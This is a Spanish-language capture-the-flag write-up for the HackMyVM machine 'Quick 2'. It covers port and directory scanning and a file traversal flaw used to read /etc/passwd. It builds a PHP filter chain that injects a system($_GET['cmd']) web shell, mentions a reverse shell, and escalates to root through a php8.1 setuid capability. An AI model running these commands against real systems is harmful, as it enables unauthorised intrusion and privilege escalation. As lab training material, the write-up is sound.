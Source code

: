 ## MAQUINA QUICK 2

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20211216.png)

Comenzamos haciendo un escaneo de puertos con nmap.

> nmap -p- --open -sS -sC -sV --min-rate 4000 "IP" -oN target.txt

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201205.png)

Encontramos el puerto 22 ssh y el 80 http abiertos.
Ingresamos al puerto servidor web (port 80) ya que no poseemos ninguna credencial para loguearnos en el ssh

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201215.png)

Luego de revisar la pagina, realizamos una enumeracion de directorios ocultos con gobuster.

> gobuster --url "IP" -w "/wordlists" -t 100 -x html,php,txt,js

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201221.png)

La enumeracion encontro un directorio llamado file.php. Ingresando alli, la web contiene una barra donde al parecer podemos leer archivos o ingresar algun comando.

Utilizamos nikto para ver si la web es vulnerable a algo

>nikto -host "ip"

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201307.png)

Como resultado de nikto la web contiene a una vulnerabilidad de file traversal, lo que significa que podemos leer archivos que esten dentro de la maquina.

Probamos leyendo el "/etc/passwd/"  y nos representa por la web el contenido del mismo.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201313.png)

Vemos que hay 2 usuarios, el usuario: nick y el usuario: andrew.

Prendemos el burpsuite para ver como esta corriendo el programa por dentro, Y con el la herramienta "php_filter_chain_generator.py" vamos a crear un cadena de filtros para el php.

> python3 php_filter_generator.py --chain '<?php system($_GET["cmd"]);?>'

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201325.png)

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201333.png)

Una vez generada la cadena, lo enviamos al burpsuite >> repeater >> y luego del "cmd" colocamos el comando a utilizar en este caso "id".

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201344.png)

Si todo esta bien como resultado muestra que el id es igual a www-data.

Con esto leemos el archivo FILE.php que nos quedo pendiente.

Despues del "php://temp" agreamos el comando 
"=&cmd=" (y de aca colocamos lo que queremos hacer, ejemplo (ls,ipa,whoami, etc)). 

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201351.png)

Bien continuando, ya que podemos ingresar linea de comandos, generamos un RV encondeada para conectarnos desde la maquina victima a la maquina atacante.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201359.png)

Genial, una vez dentro vamos a escalar privilegios ya ingresamo como el usuario www-data.

Leemos las tareas crontab con el comando

>getcap -r 2>/dev/null

Obtenemos como resultado una capabilities /usr/bin/php8.1 cap_setuid=ep

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201413.png)

Buscamos en gtfobins si tenemos alguna manera de escalar priv con php8.1 y si utilizamos el comando proporcionado por la pagina y listo somos user root.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20201420.png)

Les dejo el comando por si no lo entienden:

> /usr/bin/php8.1 -r "posix_setuid(0); system('chmod +s /bin/bash/');"
> /bin/bash -p

ROOT






